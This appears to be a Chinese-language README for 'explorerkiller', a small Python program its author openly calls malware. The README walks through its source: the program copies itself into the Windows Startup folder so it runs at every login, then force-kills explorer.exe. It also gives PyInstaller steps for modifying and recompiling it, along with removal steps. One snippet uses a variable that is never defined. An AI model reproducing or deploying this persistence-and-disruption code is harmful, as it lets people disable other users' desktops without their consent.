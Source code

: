 # 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  
```
if is_file_in_startup_folder(startup_folder, script_name):
    print("The file is already in the startup folder.")
else:
    copy_self_to_startup(startup_folder, script_path, script_name)
```
调用检查文件和复制文件函数，检查是否已有文件，假如没有，复制程序  
### 结束文件资源管理器
```
subprocess.run(['taskkill','/im','explorer.exe','/f'])
```
## 其他参数
运行系统：windows10（后续会支持更多版本）  
编译器：pyinstaller v6.10.0  
python:3.13.0  
## 如何自己修改本程序并编译
1.下载并安装python  
2.下载本程序源码  
3.进行修改  
4.在终端切到修改过后的程序源码所在路径，运行
```
pyinstaller -F 程序名称.py（请确认安装了pyinstaller）
```